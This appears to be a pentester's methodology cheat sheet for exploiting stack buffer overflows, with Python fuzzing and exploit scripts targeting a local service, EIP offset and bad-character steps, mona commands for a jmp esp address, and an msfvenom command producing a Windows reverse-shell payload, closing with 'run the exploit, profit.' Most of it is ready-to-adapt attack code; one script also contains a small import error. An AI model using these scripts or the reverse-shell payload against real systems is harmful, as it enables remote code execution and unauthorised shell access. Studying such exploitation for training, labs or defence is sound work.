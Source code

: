 # Methodology

## Spiking

I'm not so sure what's the difference between spiking and fuzzing. But still included it here for completeness sake.

```text
generic_send_tcp
```

## Fuzzing

### Sockets

This is the most basic way of fuzzing.

```python
#!/usr/bin/env python3
import sys, sockets
from time import sleep

buffer = "1" * 64
RHOST = "127.0.0.1"
RPORT = 9999

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send("change_me " + buffer)
        s.close()
        sleep(1)
        buffer = buffer + "1"*64
    except:
        print("Crashed at buffer length of: " + str(len(buffer)))
```

### Boofuzz

Also we can use boofuzz. This python module will do a lot of work for us and also create a database of results.

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("FUZZER")

s_string("change_me", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("FUZZER"))
s.fuzz()
```

## Finding offset of EIP

Best way to find EIP is to send a non-repeating pattern of characters.

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

# pwn cyclic 4000
# OR msf-pattern_create -l 4000
cyclic_pattern = b"..."

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    cyclic_pattern
])

s.send(payload)
s.interactive()
```

## Overwriting EIP

Now we can overwrite EIP with four 2's \(0x32323232\).

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

offset = 2014

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    b"1"*2014,
    b"2"*4
])

s.send(payload)
s.interactive()
```

## Finding bad characters

To be able to find "bad" characters, we'll send all 256 bytes and then search in debugger for anomalies

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

badchars = b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"+
b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"+
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"+
b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"+
b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"+
b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"+
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"+
b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"+
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"+
b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"+
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"+
b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"+
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"+
b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"+
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"+
b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    badchars
])

s.send(payload)
s.interactive()
```

## Finding the right module

You can list modules with `!mona modules` command, and find unsecured module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```text
!mona jmp -r esp
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

Generating shellcode with msfvenom is easy.

```text
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

Setup your listener, run the exploit, profit.

